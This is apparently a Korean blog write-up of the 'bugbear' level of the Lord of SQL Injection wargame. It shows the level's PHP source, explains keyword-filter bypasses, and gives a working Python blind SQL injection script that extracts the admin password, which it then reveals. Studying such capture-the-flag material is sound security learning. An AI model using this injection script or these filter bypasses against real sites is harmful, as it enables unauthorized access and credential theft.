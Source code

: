 ```yaml
---
layout: post
title: ! "[LOS] bugbear"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - bugbear
  - write-up
---
```


### https://los.eagle-jump.org/ 버전
![](/assets/posts/los/bugbear.png)

`query : select id from prob_bugbear where id='guest' and pw='' and no=`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

bugbear 문제에서는 darknight문제와 비교하여 =,like,0x,공백이 추가 되었다.
다른 분들의 darknight 풀이를 보니 hex값을 이용하신 분들도 꽤 계셔서 0x 필터링이 생긴 것 같다.

1. 공백 -> %09
2. =,like -> in() 함수
3. 0x -> char() 함수

=과 like를 우회하기 위해 >,< 도 사용한다고 하여 < 를 이용해 패스워드의 길이를 구해보았다.

![](/assets/posts/los/bugbear_admin.png)

### 코드
```php
from requests import get
import string
from time import sleep


url ="https://los.eagle-jump.org/bugbear.php"
cookies = dict(PHPSESSID="")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

for i in range(1,20):
    parameter = "?pw=1&no=1||length(pw)<"+str(i)
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is "+str(i))
        break
for i in range(1, length):
    for a in range(48,128):
        parameter ="?pw=1&no=1||id%09in(char(97,100,109,105,110))%26%26mid(pw,"+str(i)+",1)%09in(char("+str(a)+"))"
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(i) + " -> "+chr(a))
            result += chr(a)
            break

    if i == 1 and result == "":
        print("password not found")
        exit(0)

    if i == length-1:
        print("\npassword is "+result)
        print("\n")
```

저번 코드와 달라진 점이라면 길이를 구하는 부분과 char(~) 함수를 in() 으로 감싸준 것과 공백을 %09로 바꾼 것이다.

![](/assets/posts/los/bugbear_result.png)

결과에서 패스워드의 길이가 9로 나온 이유는 length(pw)<9 를 했을 때 Hello admin이 떴기 때문에 9가 뜬 것이다.
원래 패스워드의 길이는 8이다.
마찬가지로 위 결과에서 알파벳을 소문자로 바꿔주고 `?pw=735c2773` 를 해주면 된다.

![](/assets/posts/los/bugbear_clear.png)


### https://los.rubiya.kr 버전

![](/assets/posts/los/bugbear_py_result.png)

![](/assets/posts/los/bugbear_py_clear.png)

